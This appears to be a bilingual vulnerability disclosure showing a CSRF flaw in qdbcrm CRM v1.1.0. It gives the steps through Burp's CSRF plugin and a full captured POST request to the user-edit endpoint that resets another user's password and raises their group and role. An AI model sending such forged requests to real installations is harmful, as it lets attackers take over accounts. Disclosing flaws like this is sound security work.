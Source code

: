 企点邦CRM客户管理系统 v1.1.0（qdbcrm）


Manufacturer's official website：https://www.100926.com/#free_down


Download address：https://down.chinaz.com/soft/51457.htm


进入后台之后选择员工管理-编辑信息

After entering the backend, select Employee Management - Edit Information

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/496babc4-aa3d-4157-96b9-8bef4f76f33d)

输入重置的密码，点击提交保存

Enter the reset password and click submit to save

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/2f47ef12-dea5-4c5a-96f5-a9436eae8ae6)

使用burp抓取修改密码的数据包

Using Burp to Grab Data Packets for Changing Passwords


![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/ab7848ae-9f74-4925-80e5-2b0648d521d9)

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/086c28cf-17ae-4186-a77b-66909a75b62e)

通过id，修改用户的个人信息（包括密码）

Modify the user's personal information (including password) through ID


使用burp中的CSRF插件

Using the CSRF plugin in burp

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/0ea36371-db92-4246-96df-5c4cca1e542a)


![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/9a3979c3-ae14-448f-b749-3adb2e4673f4)


点击按钮

Click on the button

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/3307a7b6-28db-4437-b583-b27468ba3b40)


![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/4f3f6780-93dc-4315-a3c9-2398f3401341)



Request:

```
POST /index.php/user/edit?id=2 HTTP/1.1
Host: qdbcrm
Content-Length: 200
Pragma: no-cache
Cache-Control: no-cache
Origin: http://burp
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://burp/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,zh-TW;q=0.5
Cookie: qdbcrm_session=a%3A11%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%22c7c6a13c61a793f6c1d243aba0b18690%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A9%3A%22127.0.0.1%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A120%3A%22Mozilla%2F5.0+%28Windows+NT+10.0%3B+Win64%3B+x64%29+AppleWebKit%2F537.36+%28KHTML%2C+like+Gecko%29+Chrome%2F120.0.0.0+Safari%2F537.36+Edg%2F120.%22%3Bs%3A13%3A%22last_activity%22%3Bi%3A1705215195%3Bs%3A9%3A%22user_data%22%3Bs%3A0%3A%22%22%3Bs%3A3%3A%22uid%22%3Bs%3A1%3A%221%22%3Bs%3A8%3A%22realname%22%3Bs%3A15%3A%22%E8%B6%85%E7%BA%A7%E7%AE%A1%E7%90%86%E5%91%98%22%3Bs%3A8%3A%22username%22%3Bs%3A5%3A%22admin%22%3Bs%3A7%3A%22groupid%22%3Bs%3A1%3A%221%22%3Bs%3A6%3A%22roleid%22%3Bs%3A1%3A%220%22%3Bs%3A6%3A%22sionid%22%3Bs%3A16%3A%227d21233cf508a5d6%22%3B%7D322f66569e5e340364a6286bd459de2b16b91050
Connection: close

realname=csrf&userpwd=Test123&confirmpwd=Test123&groupid=1&iszhuguan=%EF%BF%BD%C2%90%C2%A6&roleid=1&maxnum=0&maxnum_paichu_cj=%EF%BF%BD%C2%90%C2%A6&mobile=&email=&content_user=csrf&desk_grzl=1&state=1
```

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/335cf244-2b34-4f07-908d-c65697014316)

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/f5aa4d4b-5263-4a3e-a007-aa9741468fe5)



